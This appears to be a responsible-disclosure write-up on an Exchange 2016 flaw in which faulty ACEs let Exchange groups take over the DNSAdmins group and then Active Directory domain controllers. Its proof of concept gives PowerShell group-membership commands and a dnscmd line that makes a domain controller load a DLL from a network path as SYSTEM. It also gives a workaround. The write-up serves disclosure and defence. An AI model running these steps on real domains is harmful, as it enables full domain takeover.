


## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017


DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.
Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases. If the aformentionned *Deny* ACEs are positioned on your environment, it is probably *NOT* vulnerable.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups.

These ACE are probably positioned during an update or a particular CU install. I have been confirmed they exist on other organizations production environments. This is their SDDL representation:

```
(OA;CIID;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;<SID of EWP>)
(OA;CIID;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;<SID of EWP>)
(OA;CIID;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;<SID of ETS>)
```
Which translates into:

| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | ManagedBy / | |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | Member / | |
| Exchange Trusted Subsystem | Allow ACE | All | WriteDACL | / Group | |


* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 




Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.



The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1) From an Organization Management member account, add yourself to Exchange Windows Permissions
This is possible by default and normal

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

2) LOG OUT AND RELOG THE USERS SESSION to update groups in token

3) Add yourself to DNSAdmins
This is the problem, it should not be possible

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user
```

4) LOG OUT AND RELOG THE USERS SESSION to update groups in token

5) Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:

```
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll
```

* Workaround fix

Manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: 

```
(Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"
```

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.

TODO: powershell fix script.

